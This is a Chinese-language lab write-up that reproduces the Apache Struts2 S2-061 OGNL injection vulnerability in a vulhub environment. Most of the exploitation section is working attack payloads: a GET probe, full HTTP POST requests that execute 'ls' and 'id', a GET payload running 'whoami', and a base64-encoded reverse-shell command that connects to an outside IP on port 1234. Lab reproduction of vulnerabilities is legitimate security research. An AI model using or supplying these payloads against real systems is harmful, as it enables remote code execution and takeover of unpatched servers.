





# 0x00 软件介绍
struts2：面向JAVA EE的一款java web开发框架

# 0x01 复现环境
使用环境：vulhub中的环境：https://github.com/vulhub/vulhub/tree/master/struts2/s2-061  
复现版本：Apache Struts 2.5.25

# 0x02 环境搭建
一台云上的vps  
git clone https://github.com/vulhub/vulhub  
cd ./vulhub/  
cd ./struts2/  
cd ./s2-061/  
systemctl start docker  
docker-compose up -d

# 0x03 利用条件
此次漏洞只是S2-059修复的一个绕过，并且本次利用的核心类org.apache.commons.collections.BeanMap在commons-collections-x.x.jar包中，但是在官方的最小依赖包中并没有包含这个包。所以即使扫到了支持OGNL表达式的注入点，如果没有使用这个依赖包，也还是没办法进行利用

# 0x04 影响版本
Apache Struts 2.0.0 - Struts 2.5.25

# 0x05 漏洞复现
攻击环境：kali_x64_en-us

EXP1（验证漏洞是否存在）：
```
http://ybdt.best:8080/?id=%25%7b+%27test%27+%2b+(2000+%2b+20).toString()%7d
```
查看返回页面的源码，如下图，包含“test2020”表示漏洞存在  


对于命令执行，目前网上有2种利用方式

EXP2（第一种利用方式执行命令ls）：
```
POST /index.action HTTP/1.1
Host: ybdt.best:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 829

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("ls")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```
如下图，成功执行命令  


EXP3（第二种利用方式执行命令id）：  
```
POST /index.action HTTP/1.1
Host: ybdt.best:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.110:8080/index.action
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 1361

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{
(#request.map=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + 
(#request.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) + 
(#request.map2=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) +
(#request.map2.setBean(#request.get('map').get('context')) == true).toString().substring(0,0) + 
(#request.map3=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')).toString().substring(0,0) + 
(#request.map3.setBean(#request.get('map2').get('memberAccess')) == true).toString().substring(0,0) + 
(#request.get('map3').put('excludedPackageNames',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) + 
(#request.get('map3').put('excludedClasses',#application.get('org.apache.tomcat.InstanceManager').newInstance('java.util.HashSet')) == true).toString().substring(0,0) +
(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'id'}))
}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```
如下图，成功执行命令  


EXP4（使用第一种利用方式反弹shell）：  
```
POST /index.action HTTP/1.1
Host: ybdt.best:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 918

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8zNC45Mi4zNy4xODkvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```
执行后返回值为空，如下图  
  
成功反弹shell，如下图  
  
其中反弹shell的命令
```
bash -i >& /dev/tcp/34.92.37.189/1234 0>&1
```
需要经过[http://www.jackson-t.ca/runtime-exec-payloads.html](http://www.jackson-t.ca/runtime-exec-payloads.html)这个在线编码网站编码转化一下

EXP5（以get方式执行命令）：
```
?id=%25{(%27Powered_by_Unicode_Potats0%2cenjoy_it%27).(%23UnicodeSec+%3d+%23application[%27org.apache.tomcat.InstanceManager%27]).(%23potats0%3d%23UnicodeSec.newInstance(%27org.apache.commons.collections.BeanMap%27)).(%23stackvalue%3d%23attr[%27struts.valueStack%27]).(%23potats0.setBean(%23stackvalue)).(%23context%3d%23potats0.get(%27context%27)).(%23potats0.setBean(%23context)).(%23sm%3d%23potats0.get(%27memberAccess%27)).(%23emptySet%3d%23UnicodeSec.newInstance(%27java.util.HashSet%27)).(%23potats0.setBean(%23sm)).(%23potats0.put(%27excludedClasses%27%2c%23emptySet)).(%23potats0.put(%27excludedPackageNames%27%2c%23emptySet)).(%23exec%3d%23UnicodeSec.newInstance(%27freemarker.template.utility.Execute%27)).(%23cmd%3d{%27whoami%27}).(%23res%3d%23exec.exec(%23cmd))}
```
如下图，成功执行命令  


# 0x06 批量脚本
批量脚本执行如下  


# 0x07 踩坑记录
无

# 0x08 参考链接
https://mp.weixin.qq.com/s?__biz=MzkwODE4ODUzMg==&mid=2247483809&idx=1&sn=25e1749f84157647a301cfc870e3a496&chksm=c0cc8fbaf7bb06ac6a737ae1b445a7f102c12bccd1dd1b6947010cc566c222c83ca64ddaf55a&mpshare=1&scene=1&srcid=1217bML3jQDfcn08CNPB108Z&sharer_sharetime=1608161016302&sharer_shareid=2b3eb33f35dafb832c1be951576d9620&exportkey=AZZR%2F5D7iQswX%2FWvZ%2FReXw4%3D&pass_ticket=VW8a7oy0erYiAAYDw5uunYHI68W6JFU%2B8rOOlOztJ0ArCwSyttvTe%2BlX1ZOnHwv7&wx_header=0#rd  
https://www.cnblogs.com/backlion/p/14122528.html
